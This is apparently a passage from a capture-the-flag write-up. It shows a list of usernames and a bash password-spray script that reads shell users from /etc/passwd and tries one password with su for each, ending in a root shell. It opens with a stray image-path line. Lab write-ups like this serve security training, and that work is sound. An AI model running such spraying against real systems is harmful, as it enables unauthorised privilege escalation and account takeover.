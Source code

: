 ```bash
nlee61
dwright27
swood93
rturner45
mickhat
```

We can now create our password-spay script:

```bash
$ cat spray.sh
# make a user list from /etc/passwd file
users=$(awk -F: '{ if ($NF ~ /sh$/) print $1}' /etc/passwd)


for user in $users 
do
  # pass one argv, timeout for 2 seconds, then switch to that user
  # and print the command
  echo  "$1" | timeout 2 su $user -c whoami 2>/dev/null
done

# execute the script
netadmin@wifinetic:~$ bash spray.sh "WhatIsRealAnDWhAtIsNot51121!"
root
```